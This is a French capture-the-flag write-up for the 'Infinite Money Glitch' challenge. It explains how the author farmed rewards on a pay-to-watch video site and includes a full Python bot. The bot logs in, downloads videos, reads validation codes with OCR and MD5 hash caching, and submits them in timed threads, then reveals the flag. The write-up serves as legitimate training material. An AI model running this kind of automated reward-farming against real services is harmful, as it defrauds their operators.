

# Infinite Money Glitch


## Introduction

Challenge de dev où il fallait capter un code de validation après avoir lu une vidéo pour le soumettre et gagner de l'argent.

## Description

Ce super site permet de devenir riche en regardant des vidéos !

Comme toutes les bonnes choses, il doit bien y avoir un moyen d'en abuser...

-----

## Résolution

Après avoir observé les trames HTTP intéressantes, j'ai reproduis le scénario dans un code python. Il fallait 500$ pour acheter la carte contenant le flag, une vidéo validée représentant 0,1$, il fallait en valider 5000.



    Une petite astuce ici nous permettait de découvrir qu'il n'y avait que 51 vidéos, j'avais prévu de calculer les hash (md5 pour être rapide) des vidéos téléchargées et de les enregistrer dans un fichier.

    Un autre challenge était que le service web était réinitialisé toutes les heures, il fallait donc faire vite pour les 5000 en une heure.

Une vidéo durait 30 secondes et le code de validation était affiché pendant approximativement 4 secondes. Récupérer 6 ou 7 frames dans la vidéo suffisait pour au moins tomber sur le code de validation. Une fois le code récupéré, il était envoyé dans un thread pour qu'il appelle l'API de validation dans les 30 secondes suivantes pour éviter de se prendre une erreur "Too early".

Voici mon bout de code python en l'état (not clean), je me suis inspiré d'une vidéo youtube qui faisait de l'OCR pour les sous-titres, il m'a permis de relever le challenge en moins d'une heure. Quelques vidéos n'ont pas été reconnues, je les ai complété à la main dans mon fichier `./hashes.txt`.

```python
#!/usr/bin/env python3
import requests
from bs4 import BeautifulSoup
from PIL import Image
import time
import urllib
import hashlib
import pytesseract
import threading

import os
import cv2

USR = 'ptifilou@tu.bs'
PWD = 'ptifilou@tu.bs123'

S_URL = 'https://infinitemoneyglitch.chall.malicecyber.com/'
S_LOGIN = 'login'
S_MAKEMONEY = 'video'
S_VALIDATE = 'validate'

SESSION = requests.Session()
hashes = {}
counter = 0

image_frames = 'image_frames'

def init():
    print('Loading hashes...')
    with open('./hashes.txt', 'r') as f:
        for l in f:
            h, c = l.split()
            hashes[h] = c
    print('Loading done.')

    try:
        os.remove(image_frames)
    except OSError:
        pass

    if not os.path.exists(image_frames):
        os.makedirs(image_frames)

def process(src_vid, frames_folder):
    index = 0
    while src_vid.isOpened():
        ret, frame = src_vid.read()
        if not ret:
            break

        name = f'{frames_folder}/frame{str(index)}.png'

        if index%24 == 0:
            cv2.imwrite(name, frame)
        index = index + 1
        if cv2.waitKey(10) & 0xFF == ord('q'):
            break

    src_vid.release()
    cv2.destroyAllWindows()

def get_text(folder):
    global counter
    for i in os.listdir(folder):
        my_example = Image.open(folder + "/" + i)
        text = pytesseract.image_to_string(my_example)
        if "code: " in text:
            print(f"Estimated counter {counter} ")
            code = str(text.split('code: ')[1])[0:4]
            if code.isnumeric():
                return code

def login():
    params = { 'email': USR, 'password': PWD, 'remember': "on", 'submit': "Log In" }
    response = SESSION.post(f'{S_URL}{S_LOGIN}', data=urllib.parse.urlencode(params), headers={'Content-Type':'application/x-www-form-urlencoded'})
    # print(response.text)

def get_next_video():
    global hashes
    global counter
    response = SESSION.get(f'{S_URL}{S_MAKEMONEY}')
    html_response = response.text
    soup = BeautifulSoup(html_response, 'html.parser')
    html_video_source = soup.find('source')
    vid_file = html_video_source.get('src')
    vid_name = vid_file.split('stream/')[1]
    file_name = f'./videos/{vid_name}.mp4'

    # download
    gvid_file = SESSION.get(f'{S_URL}{vid_file}', stream = True)
    with open(file_name, 'wb') as f: 
        for chunk in gvid_file.iter_content(chunk_size = 1024*1024): 
            if chunk: 
                f.write(chunk)
    
    with open(file_name, 'rb') as f: 
        contents = f.read()
        hash = hashlib.md5(contents).hexdigest()
        if hash in hashes:
            code = hashes.get(hash)
            data = {'uuid':vid_name, 'code': code}
            os.remove(file_name)
            print(f'HASH FOUND - STARTING THREAD with {vid_name}, {code}')
            thread = threading.Thread(target=validate, args=(vid_name, code, counter))
            thread.start()
            counter = counter + 1
        else:    
            vid = cv2.VideoCapture(file_name)
            frames_folder = f'./image_frames/{vid_name}'
            if not os.path.exists(frames_folder):
                os.makedirs(frames_folder)
            process(vid, frames_folder)
            code = get_text(frames_folder)
            if (code):
                with open('./hashes.txt', 'a') as f:
                    print(f'{vid_name} {hash} {code}\n')
                    f.write(f'\n{hash} {code}')
                    hashes[hash] = code
                data = {'uuid':vid_name, 'code':code}
                print(f'OCR - STARTING THREAD with {vid_name}, {code}')
                os.remove(file_name)
                thread = threading.Thread(target=validate, args=(vid_name, code, counter))
                thread.start()
                counter = counter + 1
            else:
                print(f'Not found on {file_name}, {hash}')

def validate(uuid, code, count):
    time.sleep(30)
    data = {'uuid':uuid, 'code':code}
    final_response = SESSION.post(f'{S_URL}{S_VALIDATE}', json=data, headers={'Content-Type':'application/json'})
    print(f'THREAD {count} - sending: {data} - response: {final_response.text}')


if __name__ == '__main__':
    login()
    init()
    while(True):
        get_next_video()
```

 J'ai rempli de code de log pour savoir a peu près quand j'avais atteins les 5000 vidéos pour enfin acheter la carte !

 

 L'image passait pas mais l'HTML ne cache rien !

 ```html
 <aside class="card-front">
		<label class="numbers" for="cardNumber">
			DGHACK{ButWhereCanIActuallySpendIt}
		</label>
		<label class="name" for="cardHolder">
			ptifilou@tu.bs ptifilou@tu.bs
		</label>
		<label class="expiry" for="expiryMonth">
			Credit left: 0.0€
		</label>
		
		<div class="chip">
		<svg role="img" viewBox="0 0 100 100" aria-label="Chip">
			<use href="#chip-lines"></use>
		</svg>
		</div>
		<svg class="contactless" role="img" viewBox="0 0 24 24" aria-label="Contactless">
		<use href="#contactless">
		</use></svg>
    </aside>
```

    Note : J'ai vu plus tard auprès d'un screenshot d'un autre participant qu'un code de promotion était disponible: 50€ la carte si tu l'achetais dans les 20 minutes après l'inscription, soit seulement 500 vidéos à lire !
